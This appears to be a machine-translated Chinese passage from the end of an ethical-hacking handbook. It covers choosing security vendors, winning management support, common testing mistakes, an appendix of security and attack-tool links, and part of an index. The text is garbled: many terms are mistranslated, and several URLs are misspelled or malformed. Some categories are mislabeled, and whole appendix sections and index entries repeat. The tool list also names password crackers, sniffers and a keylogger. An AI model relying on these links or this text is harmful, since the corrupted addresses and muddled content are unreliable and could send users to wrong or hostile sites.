- **你的提供商的招聘和终止政策是什么？** 寻找提供商所采取的旨在降低风险的安全和法律措施。例如，员工会滥用他们与你的关系吗？他们可能会带走你的敏感信息，或将你的漏洞分享给其他的人吗？

- **提供商是否理解你的业务需求？** 让提供商在工作说明书中列出需求清单，以确保双方达成共识。

- **提供商的沟通能力如何？** 你必须信任提供商能及时告知你并与你进行跟进。

- **你是否确切知道是谁将执行测试？** 找出是由一个人进行测试，还是领域专家专注于不同的领域？还要了解执行测试的人是刚大学毕业的学生，还是可能在海外，并决定你对那个人的工作是否有良好的感觉。

- **提供商是否有经验对发现的漏洞推荐出有效的应对措施？** 提供商不应该只是交给你一份报告并说：“祝你一切顺利！”你需要现实的解决方案。

- **提供商的动机是什么？** 你不希望留下提供商经营是为了通过服务快钱、投入极少且没有附加值的印象。你希望提供商经营是为了与你建立忠诚度并建立长期关系。


找到一个长期合作良好的组织会让你的工作变得简单得多。向潜在供应商索要几份推荐。如果该组织无法轻松地提供推荐，请寻找另一个提供商。

你的供应商应该有一份针对你的合同，其中包含共同保密条款。确保双方都签署了该合同以保护你的组织。

## 第 19 章 管理安全流程

## 考虑雇佣
## 改邪为门的黑客？

之前的黑客——我指的是那些过去入侵过计算机系统并最终入狱的黑帽黑客——非常擅长他们的工作。无疑，他们中的一些人非常聪明。许多人坚信雇佣改邪为门的黑客来测试。另一些人将这种做法比作“请狐犬看家”。如果你考虑引入一位前（不）伦理黑客来测试你的系统，请考虑以下问题：

- 你是否想通过你组织的业务来奖励恶性行为？
- 声称诚实的黑客并不一定诚实。他或她可能有根深蒂固的心理问题或性格缺陷，你将不得不应对。*买家要小心！*
- 在安全评估期间收集和访问的信息是你组织拥有的最敏感的信息。如果这些信息落入错误的人手中，即使是十年后也可能被用来对付你。一些黑客和改邪为门的罪犯混在社交群体中。你可能不希望你的信息分享给其他不知情的人。

尽管如此，每个人都有解释过去发生的事情的机会。零容忍是没有意义的。听听黑客的故事，并根据常识判断你是否信任这个人。所谓的黑帽黑客可能是一个灰帽黑客或误入歧途的白帽黑客，他们适合你的组织。这由你决定。只需在情况到来时做好准备。


理想情况下，你的安全计划应该通过增加价值来盈利，或者至少做到收支平衡。这些努力可能需要聘佣更多员工或外包更多的安全协助。

不要忘记为你以及任何帮助过你的同事接受正式培训。你必须不断地进行自我教育，才能在安全领域中保持领先地位。认证伦理黑客（CEH）和认证信息系统安全专业人员（CISSP）是值得追求的。我在附录中列出了一些优秀的会议、研讨会和在线资源。


338 第 6 部分 安全测试后续工作

## 7 十项法则

## 本部分内容 ...

- 招募并留住合适的人才来在安全工作中支持你。

- 理解为什么漏洞测试和渗透测试对于解决你的安全风险至关重要。

- 避免 IT 和安全专业人员在测试安全漏洞时常犯的错误。

- 通过工具和相关资源在你的安全评估和管理工作中寻求帮助。

## 第 20 章
## 获得安全支持的十个技巧

为了获得支持安全测试工作所需的认可和赞助，存在着数十个关键步骤。在本章中，我将描述我认为最有效的十项。

## 培养盟友和赞助者

尽管广为人知的泄露事件和合规压力推动着进展，但向管理层推销安全并不是你想独自应对的事情。找一个盟友——最好是你的直属经理或组织中该级别或更别的人员。选择一个理解安全测试价值以及广义信息安全价值的人。尽管这个人可能无法直接与你交流，但他可以被视为一个不偏不角的赞助者，为你提供信誉。

## 不要做胆小如鼠（FUDdy-Duddy）

夏洛克·福摩曾说：“在没有数据之前进行理论化是一个致命的错误。”要为信息安全和适当测试的需求提供有力的理由，请用相关数据来支持你的观点。但不要为了制造恐惧、不确定性和怀疑（FUD）而夸大其实。业务领袖一眼一眼看穿那种战术。专注于通过实用的建议来教育管理层。讨论与威胁成比例的理性担忧是可以的。不要采取“小鸡报了”路线，声称天一直塌了。这对 IT 和安全领域之外的人来说很令人疲惫，从长远来看只会伤害你。

## 证明组织无法承受被攻击

展示组织对其信息系统的依赖程度。创建“如果……会”场景（业务影响评估的形式）来展示可能会发生什么；组织的声誉会如何受到损害；以及组织在不使用网络、计算机和数据的情况下维持多久。询问业务领袖，如果没有计算机系统和 IT 人员他们会做什么，如果他们的敏感业务或客户信息遭到破坏他们会怎么办。展示泄露的真实世界证据，包括恶意软件、物理安全和社交工程问题。

同时，要保持积极。不要用 FUD 以负面态度接触管理层，但要让他们及时了解严重的安全事件。很有可能他们已经在主流商业杂志和报纸上读过这些事情了。思考你可以如何将这些故事应用到你的情况中。为了帮助管理层产生共鸣，寻找关于相似业务、竞争对手或行业的故事。

## 研究资源

一个很好的资源是隐私权利清算中心的数据泄露年表（https://www.privacyrights.org/data-breaches）。另一个是每年的威然数据泄露调查报告（https://www.verizonenterprise.com/verizon-insights-lab/dbir/）。

Google 和 Bing 也是寻找有关信息安全泄露所需知识的绝佳工具。

向管理层展示组织确实拥有黑客想要的东西。还要向他们展示内部人员利用其访问权限可以做什么。在那些不了解信息安全威胁和漏洞的人中，一个常见的误区是组织或网络实际上并没有风险。向他们展示黑客造成的潜在成本，例如：

- 错失的机会
- 知识产权泄露
- 责任问题
- 事件响应成本
- 法律诉讼成本
- 合规罚款
- 刑事惩罚
- 生产力损失
- 丢失或损坏系统的更换成本
- 声誉损失（声誉需要建立建立，毁掉只需几分钟）

## 概述安全测试的通用益处

除了上一节列出的潜在成本外，讨论主动测试可以发现通常被忽略的信息系统漏洞。告诉管理层，漏洞测试和渗透测试（有时被称为伦理黑客）是一种像坏人一样思考的方式，从而能够保护自己。

## 展示安全测试如何具体帮助组织

记录支持整体业务目标的益处，例如：

- 证明安全测试不需要非常昂贵，从长远来看可以为组织节省资金。说明以下点：
- 前置的安全比后期添加更容易也更便宜。
- 如果得当，安全不会变得不便或阻碍生产力。
- 讨论如何为新产品或服务提供竞争优势：
- 遵守州、联邦和国际隐私法规。
- 满足业务合作伙伴和客户的需求。
- 管理层在客户眼中是可靠的。
- 完善测试计划表明组织正在保护敏感信息。
- 概述安全测试的合规和审计益处。

## 参与业务

了解业务的运作方式，这包括：

- 参加会议以证明你关注业务。
- 成为对业务有贡献的有价值的人。
- 了解你的对手。再次使用“知己知彼”的心态。如果你了解内部接触的人及其潜在反对，获得支持会更容易。这种方法不仅适用于管理层，也适用于你的同事和网络上的每一个用户。甚至你的董事会也会疑问和担忧。

## 建立你的信誉

我认为 IT 和安全专业人员面临的最大障碍之一是人们不“理解”我们。你的信誉就是一切。关注以下四个特征来建立并维护它：

- 对组织保持积极态度，并证明你是认真的的。
- 与管理层产生共情，向他们展示你理解业务端以及他们面临的挑战。
- 确定帮助他人获得他们所需的方法，而只是索取。
- 要建立任何积极的业务关系，你必须值得信赖。信任随着时间的推移而建立，推销安全会容易得多。


# 在你的努力中展现价值

这一阶段是付诸实效的关键。如果你能够证明你所做的工作持续提供价值，你就可以保持良好的节奏，而无必反复请求让你的安全测试计划继续下去。请记住以下几点：

- **记录你对 IT 和安全工作的参与，并为管理层创建关于组织安全状况的持续报告。** 向管理层提供组织系统如何（或将如何）防御攻击的示例。
- **列出实质性结果作为概念证明。** 展示你创建的安全评估报告，或来自你打算使用的安全工具的扫描结果。
- **将来自管理层和用户的疑虑、担忧和反对视为对更多信息的请求。** 找到答案，并将这些问题视为进一步推销你工作成果的机会。

# 保持灵活与适应能力

为面对质疑和拒绝做好准备。尽管在当今安全的话题非常火热，但拒绝仍然会发生，尤其是来自那些与组织内 IT 和安全脱节的高层经理。一个缺乏创造力的中间管理结构也是问题的参与者之一。

不要产生防御心理。安全是一个长期过程，而不是短期的评估、产品或服务。从小处着手。使用有限的资源预算、工具和时间 —— 然后在长期内构建该计划。

心理学研究发现，随意的、无压力的新想法呈现，比那些在截止日期压力下的人所提出的想法更容易被考虑和接受。如果你对测试方法的关注程度至少不低于你对演示内容的关注程度，你通常可以让人们站在你这一边，作为回报，你的安全计划将取得更大的成就。

> 记住：提示

346 第 7 部分 十进制法

# 第 21 章
黑客攻击是唯一有效测试方式的十个原因

从伦理黑客的角度方法你的安全测试不仅仅是为了好玩或作秀。出于许多业务原因，这是发现组织中重要安全漏洞的唯一有效方法。

# 坏人会想坏主意，使用好工具，并开发新方法

如果你想跟上外部攻击者和恶意内部人员的步伐，你就必须对他们使用的最新攻击方法和工具保持关注。我在书中涵盖了一些最新的花招、技术和工具。

# IT 治理与合规不仅仅是高层清单审计

在所有政府和行业法规的监管下，你的业务在这一问题上可能没有选择。你必须处理安全。问题在于，符合这些法律法规并不自动意味着你的网络和信息是安全的。支付卡行业数据安全标准（PCI DSS）就让人想到了这一点。无数企业运行漏洞扫描，回答自评估问卷，并认为他们已经做了管理信息安全计划所需的所有工作。遵守《通用数据保护条例》（GDPR）和《健康保险可携带性与责任法案》（HIPAA）也是如此。

你必须摘下清单的遮目镜，从以合规为中心的方法转向以风险为中心的方法。使用书中涵盖的工具和技术，让你能够更深入地挖掘为你的业务带来最大挑战的漏洞。

# 漏洞和渗透测试了审计和安全评估

无疑，你组织中的某些人比这些漏洞和渗透测试更理解高级安全审计。但如果你能说服这个人进行更深入的安全测试，并将其整合到现有的安全计划（如内部审计和合规性抽查）中，审计过程就可以变得深入得多并提高你的成果。每个人都获益。

# 客户和合作伙伴会询问你的系统有多安全

许多企业现在要求对其业务伙伴进行深度评估，某些客户也是如此。大公司几乎想知道当信息在你的环境中被处理或存储时它们有多安全。你不能依靠数据中心审计报告，例如常用的参考 SSAE18 服务组织控制 (SOC) 2 标准。使用书中涵盖的工具和技术，让你能够深入挖掘为你的业务带来挑战的漏洞。

348 第 7 部分 十进制法

# 平均法则对企业不利

信息系统变得越来越复杂。随着云、虚拟化和移动成为重心，跟上变化变得越来越困难。这些复杂性会产生不利影响。恶意黑客只需要一个漏洞就能成功。你必须以黑客思维审视问题，并定期进行，而不是只一次。

# 安全评估改进了对威胁的理解

无疑你组织中的某些人比这些漏洞和渗透测试更理解高级安全审计。但如果你能进行更深入的安全测试并将其整合到现有的安全计划（如内部审计和合规性抽查）中，审计过程就可以变得深入得多并提高你的成果。找出漏洞。

# 如果发生泄露，你有据可依

当恶意内部人员或外部攻击者入侵你的安全、你的业务面临诉讼，或违反法律时，管理层至少可以证明他们通过测试履行了尽职调查。

349 第 21 章 黑客攻击是唯一有效测试方式的十个原因

相关的另一个领域是知道问题但不修复它。你不想走那条路。

# 深度测试会暴露你系统中最糟糕的问题

进行自评估或高层审计的人可以发现你缺失的安全实践，但他无法发现大多数深度安全漏洞渗透测试会发现的漏洞。我在书中概述的测试方法会暴露所有问题。

# 结合漏洞测试和渗透测试是你所需要的

渗透测试本身很少发现你系统中的所有问题，因为传统渗透测试的范围太有限。基础漏洞扫描也是如此。当你结合使用时，可以获得最高的性价比。

# 适当测试可以发现被忽视的缺陷

执行适当的安全评估不仅涵盖技术、物理和人为缺陷，还揭示了 IT 和安全运营的根源，例如补丁管理、变更管理和缺乏用户意识。否则，你可能在太晚之后发现这些缺陷。

# 第 22 章致命错误

在安全测试中做出错误会对你的工作甚至你的职业造成破坏。在本章中，我讨论了在执行安全评估工作时需要密切注意的潜在陷阱。

# 未获得批准

提前获得书面批准，例如电子邮件、内部备忘录或针对安全测试工作的正式合同——无论是来自管理层还是客户——都是必不可少的。除了法律上可能影响你测试的规定外，这是你的免死金牌。


# 假设你可以找到所有漏洞

存在着许多安全漏洞——包括已知的和未知的——你无法在测试期间找到它们中的全部。不要不要保证你能够发现系统中所有的安全漏洞。你将开始一项你无法完成的任务。

请遵循以下准则：

- 现实一点。
- 使用优质的工具。
- 熟悉你的系统，并练习磨炼你的技术。
- 随着时间的积累不断进步。

在第 5 到第 16 章中，我通过各种方式涵盖了这些规则。

# 假设你可以消除所有漏洞

对于网络、计算机和应用程序来说，无不可摧的安全是无法实现的。你不可能防止所有的安全漏洞，但如果你能发现产生大部分风险的“低挂果实”并完成以下任务，你也会很好：

- 遵循可靠的实践。安全基础要素已经存在了数十年。
- 补丁并加固你的系统。
- 根据预算和业务需求，在可能的情况下应用合理的安全防护。

许多章节（例如第四部分中的操作系统（OS）章节）都涵盖了这些领域。

此外，记住你会有计划外成本也很重要的。你可能会发现大量的安全问题，并需要预算来填补漏洞。也许你现在面临着尽职调查（due-care）问题，必须修复已发现的问题。出于这个原因，你需要从风险的角度来看信息安全，并让所有相关的人员到位。

# 只进行一次测试

安全评估仅仅是你整体安全状态的快照。新的威胁和漏洞不断出现，因此你必须定期、持续地执行这些测试，以确保你跟上系统最新的安全防御措施。为未来几个月和几年的安全测试制定短期和长期计划。

# 认为自己无所不知

尽管 IT 领域的一些人对此持异议，但任何从事 IT 或信息安全工作的人都不知道该主题的所有知识。跟上所有的软件版本、硬件型号和新兴技术（更不用说相关的安全威胁和漏洞）是不可能的。真正的 IT 和信息安全专业人士知道自己的局限性——也就是说，他们知道自己不知道什么。他们确实知道如何通过无数在线资源获取答案，例如我在附录中列出的那些资源。

# 没有从黑客视角运行测试

思考一下恶意外部人员或内部叛鬼人员如何攻击你的网络和计算机。获得一个免费的视角；尝试跳出思维，思考系统如何被离线、信息如何被窃取等等。

> 研究关键行为、黑客行为以及常见的攻击手段，以便你知道要测试什么。我一直在 https://www.principlelogic.com 关于这个主题写博客。查看附录获取其他可以帮助你在该领域的可信资源。


# 没有测试正确的系统

关注最重要的系统和信息。你可以整天都在破解一台运行 Windows XP 的独立台式式电脑，或者一台毫无价值的培训室打印机，但这样做有什么用吗？可能没用，但你永远不知道。你最大的风险可能在看似最不重要的系统上。关注既紧急又重要的事情。

# 没有使用正确的工具

如果没有完成任务的正确工具，在不让自己崩溃的情况下获得任何结果是不可能的。这与在家里、汽车上或在花园里干工作没有区别，在于良好的工具是必不可少的。下载我在书中和附录中提到的免费和试用版工具。可以时购买商业工具；它们通常物有所值。不过，没有任何一种安全工具是万能的。


> 构建你的工具箱并熟悉你的工具将节省你大量的精力，你的结果将让他人印象深刻，并帮助你减少业务风险。

# 在错误的时间猛击生产系统

让你的经理生气或失去客户信任的最佳方法之一，是在所有人都在使用系统时对生产系统运行安全测试。对于运行老旧、脆弱的操作系统或遗留应用程序的公司来说，这个问题尤为严重。如果你尝试在错误的时间测试系统，你应该预期关键系统会在糟糕糟糕时刻受到负面影响。

确保你知道执行测试的最佳时间，这可能在半夜。（我从未说过信息安全测试很容易！）奇特的测试计划可以为使用安全工具和其他辅助实用程序来自动化某些任务提供理由，例如允许你在特定时间运行扫描的漏洞扫描器。

# 外包测试且不参与

外包很棒，但你必须参与整个过程。不要在不跟进、不掌握发生情况的情况下，将安全测试的控制权交给第三方顾问或托管服务提供商。如果你不打扰第三方供应商，并不会为你的经理或客户提供任何好处。去找他们麻烦（除非当然，他们像我一样秃头，但你懂我的意思）。你无法外包责任，所以保持联系！

# 附录

## 工具与资源

为了跟上附录中列出的最新最强大的安全工具，你可以从以下方面获益：

## 恶意软件
- Cloudflare: https://www.cloudflare.com
- DOSarrest: https://www.dosarrest.com
- Incapsula: https://www.incapsula.com

## 漏洞
- Metasploit: https://www.metploit.com
- Offensive Security's Exploit Database: https://www.exploit-db.com
- Pwnie Express: https://www.pwniexx.com

## 认证
- Certified Information Manager: https://www.isaca.org
- Certified Information Systems Professional: https://www.isc2.org
- Certified Wireless Security: https://cnwp.com
- CompTIA Security+: https://certification.comptia.org
- SANS GIAC: https://www.giac.org

## 数据库
- Advanced SQL Recovery: https://www.elcomsoft.com/asqlpr
- AppDetectivePro: https://www.trustwave.com/AppDetective
- Elcomsoft Distributed Recovery: https://www.elcomsoft.com/edpr
- Idera: https://www.idera.com
- Microsoft SQL Management Studio: https://docs.microsoft.com/en-us/sql/download-sql-server-management-studio?view=sql-server-2017
- Npexose: https://www.rapid7.com/vulnerability-scanner
- Pete Finnigan’s list of Oracle scanning: http://www.petefinnigan.com/tools.htm
- QualysGuard: https://www.qualys.com
- SQLPing: https://www.sqlsecurity.com

## 一般研究工具
- AFRNIC: https://www.afrinic.net
- APNIC: https://www.apnic.net
- ARIN: http://whois.arin.net/ui
- Bing: https://www.bing.com
- DNSStuff: https://www.dnsstuff.com
- DNS Tools: www.dnstools.com
- Google: https://www.google.com
- GoogleGuide advanced operators: www.googleguide.com/advanced_operators/
- Government domains: https://domains.dot.gov/gov-web/registry/whois.html?m=3


D&B Hoover 商业信息 — www.hoovers.com

LACNIC — www.lacnic.net

Netcraft 的“该网站在运行什么？” — https://www.netcraft.com

RIPE 网络协调中心 — https://apps.db.ripe.net/db-web-ui/#query

theHarvester — https://code.google.com/p/theharvester

美国专利及商标局 — https://www.uspto.gov

US Search.com — https://www.usesearch.com

美国证券交易委员会 — https://www.sec.gov/edgar.shtml

WhatIsMyIP — https://www.whatismyip.com

Whois — https://www.whois.net

雅虎财经 — https://finance.yahoo.com

Zabasearch — www://www.zabasearch.com

## 黑客相关杂项

2600 黑客季度刊 — https://www.2600.com

黑客 T 恤、设备和其他小玩意 — https://www.thinkgeek.com

Hacking — https://www.hakin9.org

(IN)SECURE 杂志 — https://www.helpnetsecurity.com/insecuremagazinearchive/

Phrack — www.phrack.org

## 键盘记录器

KeyGhost — www.keyghost.com

360 黑客入门教程

## 法律与法规

计算机欺诈与滥用法 — https://www.fas.org/crs/sgp/misc/RS20830.pdf

数字千年版权法 (DMCA) — https://www.eff.org/issues/dmca

通用数据保护条例 (GDPR) — https://www.eugdpr.org

格雷姆-莱奇-布莱尔法 (GLBA) 安全规则 — https://www.ftc.gov/tips-advice/business-center/privacy-and-security/gramm-leach-bliley-act

健康保险流通性与责任法 (HIPAA) 安全规则 — https://www.hhs.gov/ocr/privacy/hipaa/understanding/summary.html

支付卡行业数据安全标准 (PCI DSS) — https://www.pcisecuritystandards.org/pci_security

美国安全违露通知法 — http://www.ncsl.org/research/telecommunications-and-information-technology/security-breach-notification-laws.aspx

## Linux

GFI LanGuard — https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3

Kali Linux — https://www.kali.org

Linux 安全审计工具 (LSAT) — http://usat.sourceforge.net

Nposcope — https://www.rapid7.com/products/

QualysGuard — https://www.qualys.com

SourceForge — https://sourceforge.net

THC-Amap — www.thc.org/thc-amap

Tiger — www://www.nongnu.org/thc-tiger

## Live 工具包

现场启动 Linux 工具包列表 — www.livecdlist.com

Kali Linux — https://www.kali.org

Knoppix — http://www.knoppix.net

网络安全工具包 — http://www.networksecuritytoolkit.org/nst/index.html

安全工具发行 — https://s-t-d.org

## 日志分析

GFIEventsManager — https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-eventsmanager

SIEM 数据收集日志管理 — https://software.microfocus.com/en-us/products/siem-data-collection-log-management-platform/overview

## 消息传递

Brutus — www.hoobie.net/brutus

Cain & Abel — www.oxid.it/cain.html

DNSstuff 继检查器 — https://www.dnsstuff.com

EICAR 反病毒测试文件 — https://www.eicar.org/86-0-Intended-use.html

theHarvester — https://github.com/laramies/theHarvester

mailsnarf — https://www.monkey.org/~dugsong/dsiff

smtpscan — https://www.freshports.org/security/smtpscan

## 杂项

7-Zip — https://www.7-zip.org

SmartDraw — https://www.smartdraw.com

3M 隐私滤镜 — https://www.3m.com/3M/en_US/privacy-screen-protectors-us

WinZip — www.winzip.com

## 移动端

Microsoft Windows 7 中的 BitLocker 考虑 — https://www.principlelogic.com/docs/BitLocker_in_Windows7.pdf

ElcomSoft 取证磁盘解密器 — http://www.elcomsoft.com/efdd.html

ElcomSoft 手机破解 — http://www.elcomsoft.com/eppb.html

ElcomSoft 系统恢复 — http://www.elcomsoft.com/esr.html

iOS 取证工具包 — http://www.elcomsoft.com/eift.html

Microsoft BitLocker 管理与监控 — https://docs.microsoft.com/en-us/microsoft-desktop-optimization-pack/index

Ophrack — http://ophcrack.sourceforge.net

Oxygen 取证套件 — http://www.oxygen-forensic.com

Passware 取证工具件包 — https://www.passware.com/kit-forensic/

Veracode — www.veracode.com

## 网络

Arpwatch — http://linux.maruhn.com/arpwatch.html

Blast v2.0 — http://www.mcafee.com/us/downloads/free-tools/blast.aspx

Cain & Abel — www.oxid.it/cain.html

CommView — http://www.tamos.com/products/commview

dsniff — http://www.monkey.org/~dugsong/dsniff

Essential NetTools — http://www.tamos.com/products/nettools

Fortinet — http://www.fortinet.com

Getif — www.wtcs.org/snmp4ptc/getif.hm

GFI LangGuard — https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard3

IKECrack — http://ikecrack.sourceforge.net

Nessus — https://www.tenable.com

Netcat — http://www.nmap.org/

Nmap — https://www.nmap.org/

Nmap — http://www.nmap.org/

Nposcope — https://www.rapid7.com/products/

Ophrack — http://ophcrack.sourceforge.net

Oxygen 取证套件 — http://www.oxygen-forensic.com

Passware 取证工具件包 — https://www.passware.com/kit-forensic/

Veracode — www.veracode.com

## 工具与资源


## 安全教育与学习资源

- Kevin Beaver 的网站资源（文章、博客、白皮书、网络广播等） — https://www.principleogic.com/resources.html
- Kevin Beaver 的 Security On Wheels 信息安全音频节目 — http://securityonwheels.com
- Twitter上的 Kevin Beaver — https://twitter.com/kevinbeaver

## 安全方法与模型

- 开源安全测试方法手册 (OSSTMM) — www.isecom.org/research/osstmm.html
- OWASP — https://www.owasp.org/index.php/Main_Page
- SecurTree — https://www.amenaza.com
- Open Group 的 FAIR 风险分类法 — www.opengroup.org/subjectareas/security/risk

## 社会工程与钓鱼攻击

- CheckShortURL — www.checkshorturl.com
- LUCY — https://www.lucysecurity.com
- 社会工程工具包 (SETK) — https://www.trustedsec.com/social-engineer-toolkit-set
- 这个链接会到哪里？ — http://wheredoesthislinkgo.com

368 骇客入门

## 源代码分析

- PVS-Studio — https://www.viva64.com/en/pvs-studio
- SonarQube — https://www.sonarqube.org
- Visual Code Grepper — https://sourceforge.net/projects/visualcodegrepper

## 统计数据

- 隐私权利清算中心数据泄露年史 — https://www.privacyrights.org/data-breaches
- 威信数据漏洞调查报告 — https://www.verizonenterprise.com/verizon-insights-lab/dbir

## 存储

- 有效文件搜索 — https://www.sowsoft.com/search.htm
- FileLocator Pro — https://www.mythisoft.com
- Spirion — https://www.spirion.com
- Winhex — http://www.winhex.com

## 系统加固

- Bastille 加固计划 — http://bastille-linux.sourceforge.net
- 网络安全中心 (CIS) 基准 — https://www.cisecurity.org
- Deep Freeze 企业版 — www.faronics.com/products/deep-freeze/enterprise
- Fortress 101 — www.fortresgrand.com
- Imperva — https://www.imperva.com/products/data-security
- Linux 员安全指南 — www.seifried.org/lasg
- 微软安全合规管理器 — https://technet.microsoft.com/en-us/library/cc677002.aspx
- ServerDefender — https://www.port80.software.com/products/serverdefender
- 赛门克 PGP — https://www.symantec.com/products/encryption
- WinMagic — https://www.winmagic.com

## 用户意识与培训

- Awareity MOAT — www.awareity.com
- Greenidea Visible Statement — www.greenidea.com
- Interact, Inc. 意识资源 — https://www.thesecurityawareness.com
- Rebecca Herold (Auerbach) 著《信息安全与隐私意识及培训管理》 — https://www.amazon.com/Managing-Information-Security-Awareness-Training/dp/0849329639
- Peter Davis & Associates 培训服务 — www.pdaconsulting.com/services.htm
- Security Awareness, Inc. — www.securityawareness.com

## 语音协议 (VoIP)

- Cain & Abel — www.oxid.it/cain.html
- CommView — https://www.tamos.com/products/commview
- 各 VoIP 工具列表 — www.voipsa.org/Resources/tools.php

370 骇客入门

- NIST SP800-58 文档 — https://csrc.nist.gov/publications/detail/sp/800-58/final
- OmniPeek — https://www.savvius.com
- PROTOS — https://www.ee.oulu.fi/research/ouspg
- VoIP Hopper — http://voiphopper.sourceforge.net
- vomit — http://vomit.xtdnet.nl

## 漏洞数据库

- 常见漏洞与披露 (CVE) — http://www.cve.mitre.org
- CWE/SANS 前25 危险编程错误 — https://www.sans.org/top25-software-errors
- 国家漏洞数据库 (NVD) — https://www.nvd.nist.gov
- SANS CIS 关键安全控制 — https://www.sans.org/critical-security-controls
- US-CERT 漏洞说明数据库 — https://www.kb.cert.org/vuls

## 网站与应用程序

- Acunetix 漏洞扫描器 — https://www.acunetix.com
- AppSpider — https://www.rapid7.com/try/appspider
- Brutus — www.hoobie.net/brutus/index.html
- Burp Proxy — https://portswigger.net/burp
- Firefox Web 开发者 — http://chrispederick.com/work/web-developer
- Fortify WebInspect — https://software.microfocus.com/en-us/products/webinspect-dynamic-analysis-dast/overview

附录 工具与资源 371

- Foundstone SASS Hackme 工具 — https://www.cacafee.com/downloads/free-tools/index.aspx
- Google 蜜罐 — http://ghh.sourceforge.net
- Google 骇客数据库 — https://www.exploit-db.com/google-hacking-database
- HTTrack 网站复制器 — www.htrack.com
- McAfee 服务器主机入侵防护 — https://www.mcafee.com/us/products/ips-for-server.aspx
- Netsparker — https://www.netsparker.com
（此处由于原文存在重复，翻译已跳过后续的重复内容）
- Netsparker — https://www.netsparker.com (重复项)
- OWASP Zed 攻击代理项目 (ZAP) — https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project
- Paros Proxy — https://sourceforge.net/projects/paros
- Port 80 Software 的 ServerMask — https://www.port80software.com/servermask
- Qualys SSL Labs — https://www.sslabs.com
- SiteDigger — https://www.mcafee.com/us/downloads/free-tools/sitedigger-aspx
- SQL 注入 — https://addons.mozilla.org/en-us/firefox/addon/sql-me
- SQL PowerInjector — www.sqlpowerinjector.com
- Hydra — https://tools.kali.org/password-attacks/hydra
- WebGoat — https://www.owasp.org/index.php/OWASP_WebGoat
- WSDigger — https://www.mcafee.com/us/downloads/free-tools/wsdigger-aspx
- WSFuzzer — https://www.owasp.org/index.php/OWASP_WSFuzzer_Project

372 骇客入门

## Windows

- Windows 7 BitLocker — https://www.principleogic.com/docs/BitLocker_in_Windows7.pdf
- DumpSec — https://www.systemtools.com/somarsoft-com
- GFI LandGuard — https://www.gfi.com/products-and-solutions/network-security-solutions
- 微软基线安全分析 — https://www.microsoft.com/en-us/download/details.aspx?id=7558
- Network Users — www.optimux.com/download/netusers.zip
- Nexpose — https://www.rapid7.com/products/nexpose
- QualysGuard — https://www.qualys.com
- SoftPerfect Security — https://www.softperfect.com/security-scanner
- ServerDefender — https://www.port80.software.com/products/serverdefender
- 赛门克 PGP — https://www.symantec.com/products/encryption
- WinMagic — https://www.winmagic.com

## 用户意识与培训

- Awareity MOAT — www.awareity.com
- Greenidea Visible Statement — www.greenidea.com
- Interact, Inc. 意识资源 — https://www.thesecurityawareness.com
- Rebecca Herold (Auerbach) 著《信息安全与隐私意识及培训管理》 — https://www.amazon.com/Managing-Information-Security-Awareness-Training/dp/0849329639
- Peter Davis & Associates 培训服务 — www.pdaconsulting.com/services.htm
- Security Awareness, Inc. — www.securityawareness.com

## 语音协议 (VoIP)

- Cain & Abel — www.oxid.it/cain.html
- CommView — https://www.tamos.com/products/commview
- 各 VoIP 工具列表 — www.voipsa.org/Resources/tools.php

370 骇客入门

- NIST SP800-58 文档 — https://csrc.nist.gov/publications/detail/sp/800-58/final
- OmniPeek — https://www.savvius.com
- PROTOS — https://www.ee.oulu.fi/research/ouspg
- VoIP Hopper — http://voiphopper.sourceforge.net
- vomit — http://vomit.xtdnet.nl

## 漏洞数据库

- 常见漏洞与披露 (CVE) — http://www.cve.mitre.org
- CWE/SANS 前25 危险编程错误 — https://www.sans.org/top25-software-errors
- 国家漏洞数据库 (NVD) — https://www.nvd.nist.gov
- SANS CIS 关键安全控制 — https://www.sans.org/critical-security-controls
- US-CERT 漏洞说明数据库 — https://www.kb.cert.org/vuls

## 网站与应用程序

- Acunetix 漏洞扫描器 — https://www.acunetix.com
- AppSpider — https://www.rapid7.com/try/appspider
- Brutus — www.hoobie.net/brutus/index.html
- Burp Proxy — https://portswigger.net/burp
- Firefox Web 开发者 — http://chrispederick.com/work/web-developer
- Fortify WebInspect — https://software.microfocus.com/en-us/products/webinspect-dynamic-analysis-dast/overview

附录 工具与资源 371

- Foundstone SASS Hackme 工具 — https://www.cacafee.com/downloads/free-tools/index.aspx
- Google 蜜罐 — http://ghh.sourceforge.net
- Google 骇客数据库 — https://www.exploit-db.com/google-hacking-database
- HTTrack 网站复制器 — www.htrack.com
- McAfee 主机入侵防护 — https://www.mcafee.com/us/products/ips-for-server.aspx
- Netsparker — https://www.netsparker.com
- OWASP Zed 攻击代理项目 (ZAP) — https://www.owasp.org/index.php/OWASP_Zed_Attack_Proxy_Project
- Paros Proxy — https://sourceforge.net/projects/paros
- Port 80 Software 的 ServerMask — https://www.port80software.com/servermask
- Qualys SSL Labs — https://www.sslabs.com
- SiteDigger — https://www.mcafee.com/us/downloads/free-tools/sitedigger-aspx
- SQL 注入 — https://addons.mozilla.org/en-us/firefox/addon/sql-me
- SQL PowerInjector — www.sqlpowerinjector.com
- Hydra — https://tools.kali.org/password-attacks/hydra
- WebGoat — https://www.owasp.org/index.php/OWASP_WebGoat
- WSDigger — https://www.mcafee.com/us/downloads/free-tools/wsdigger-aspx
- WSFuzzer — https://www.owasp.org/index.php/OWASP_WSFuzzer_Project

## 索引

## A
- 访问拦截, 241
- 访问控制列表 (ACL), 238
- 活动目录 (Active Directory), 104
- 活动页面 (ASP), 291
- Acunetix 漏洞扫描器, 210
- 账户枚举 (account enumeration), 260
- 账户锁定 (account lockout), 121
- 自动评估系统, 56–67
- 自动重置密码, 121
- 自动补丁, 325–326, 331–332
- Awareness MOAT (网站), 370
- 意识，作为应对措施
- 社会工程, 80–82
- 匿名性, 35–36
- ANSI (美国标准协会), 11
- 外部天线, 161
- Apache Web 服务器 (http), 230
- ARIN (北美、加勒比地区和赤道道非洲区域注册机构), 66, 359
- ASP 欺骗/投毒, 147–149
- ASCII (信息交换标准), 119
- asweep (网站), 171, 373
- ASP (活动服务器页面), 291
- Asterisk (网站), 77
- 邮件附件, 255–256
- 攻击树分析, 42
- 攻击, 33–35. 参见特定主题
- 审计，与道德黑客对比, 10–11, 348
- 身份验证, 101, 121–226
- 授权, 18
- 自动评估, 18
- 分析器, 128
- 分析网络数据, 140–146
- 匿名性, 35–36
- ANSI (美国标准协会), 11
- 外部天线, 161
- Apache Web 服务器 (http), 230
